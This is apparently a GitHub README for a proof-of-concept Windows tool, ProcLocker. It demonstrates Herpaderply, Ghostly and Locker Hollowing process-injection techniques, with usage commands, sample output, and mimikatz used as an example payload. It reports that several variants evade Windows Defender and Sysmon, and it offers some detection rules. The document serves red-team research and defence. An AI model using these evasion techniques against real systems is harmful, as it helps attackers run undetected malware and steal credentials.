 # Herpaderply Hollowing | Ghostly Hollowing | Locker Hollowing
This is just a PoC script of Herpaderply Hollowing, Ghostly Hollowing and Locker Hollowing. See how to encrypt payload and self inject in [PELoader](https://github.com/Hagrid29/PELoader).

Process Locker is my version of variation of Process Herpaderping. Instead of overwriting the payload just after the execution, Process Locker duplicate the file handle of payload to a running process in order to "lock" the file. The "locked" payload usually not examined by AV/EDR.


Credits: most of my work was based on @hasherezade's [PoC](https://github.com/hasherezade/transacted_hollowing).

## Characteristics of each hollowing 

- Payload mapped as `MEM_IMAGE`
- Sections mapped with original access rights (no `RWX`)
- Payload connected to PEB as the main module

### Herpaderply Hollowing

Herpaderply Hollowing is a hybrid between Process Hollowing and [Process Herpaderping](https://jxy-s.github.io/herpaderping/)

![HerpaderplyHollowing](img/HerpaderplyHollowing.png)

Process Herpaderping

```
cmd> .\ProcLocker.exe herpaderp process callback.exe 
```

Herpaderply Hollowing

```
cmd> .\ProcLocker.exe herpaderp hollow callback.exe 
[+] Created temp file: C:\Users\XXX\AppData\Local\Temp\TH1F9C.tmp
[+] Written!
[+] Overwriting file content
[+] Created Process PID: 21812
[+] Resuming PID 21812
[+] Done!
```



Windows Defender detect Process Herpaderping while failed to detect Herpaderply Hollowing

Elastic suggest to identify process execution followed by a file overwrite of an executable by the same parent process. [ref](https://www.elastic.co/guide/en/security/current/potential-process-herpaderping-attempt.html)

```
sequence with maxspan=5s [process where event.type == "start" and
not process.parent.executable :
"C:\\Windows\\SoftwareDistribution\\*.exe"] by host.id,
process.executable, process.parent.entity_id [file where event.type
== "change" and event.action == "overwrite" and file.extension ==
"exe"] by host.id, file.path, process.entity_id
```



### Ghostly Hollowing

[Ghostly Hollowing](https://github.com/hasherezade/transacted_hollowing#ghostly-hollowing) is a hybrid between Process Hollowing and Process Ghosting

![GhostlyHollowing](img/GhostlyHollowing.png)

Process Ghosting

```
cmd> .\ProcLocker.exe ghost process mimikatz.exe
```

Ghostly Hollowing

```
cmd> .\ProcLocker.exe ghost hollow callback.exe
```



Windows Defender failed to detect Process Ghosting and Ghostly Hollowing.

The program map the payload from a delete pending file. It could be an indicator of process ghosting or ghostly hollowing. I wrote a MDE rule for example below.

```
DeviceImageLoadEvents
| where TimeStamp >= ago(1h)
| where SHA1 == ""
```



### Locker Hollowing

Locker Hollowing is a hybrid between Process Hollowing and Process Locker.

![LockerHollowing](img/LockerHollowing.png)

Locker Hollowing

```
.\ProcLocker.exe locker process mimikatz.exe 19408 auto
[+] Created temp file: C:\Users\xxx\AppData\Local\Temp\TH82F6.tmp
[+] Written!
[+] Duplicating file handle to 19408
[+] File locked 
[+] Process created! Pid = 11976
[+] Done!
```

First "lock" the payload by duplicating file handle to a running process. Then map the payload from the "locked" file and execute it. Finally, clean up the "locked" payload.

```
cmd> .\ProcLocker.exe lock mimikatz.exe 19408
[+] Created temp file: C:\Users\xxx\AppData\Local\Temp\TH1827.tmp
[+] Written!
[+] Duplicating file handle to 19408
[+] File locked

cmd> .\ProcLocker.exe locker process TH1827.tmp 19408 exec
[+] Getting system handle list
[+] Found remote file handle of "\Users\xxx\AppData\Local\Temp\TH1827.tmp"
[+] Duplicating file handle to current process
[+] Process created! Pid = 12080
[+] Done!

.\ProcLocker.exe clear TH1827.tmp 19408 
[+] Getting system handle list
[+] Found remote file handle of "\Users\xxx\AppData\Local\Temp\TH1827.tmp"
[+] Duplicating file handle to current process
[+] Releasing the file handle. You can manually remove the file
[+] Overwriting file content
```



Windows Defender detect Process Lockering while failed to detect Locker Hollowing.

The program map the payload from a "locked" file. It could be an indicator of process Lockering.



### Sysmon Event ID 25

Sysmon Event ID 25 triggers "when the mapped image of a process doesn't match the on-disk image file, or the image file is locked for exclusive access."

It would be logged for process herpaderping, process ghosting and process lockering. However, it would not be logged for Herpaderply Hollowing, Ghostly Hollowing or Locker Hollowing.

![detection-of-process-lockering](img/detection-of-process-lockering.png)

![detection-of-process-ghosting](img\detection-of-process-ghosting.png)



## References

* https://jxy-s.github.io/herpaderping/
* https://github.com/hasherezade/transacted_hollowing
* https://www.x86matthew.com/view_post?id=hijack_file_handle



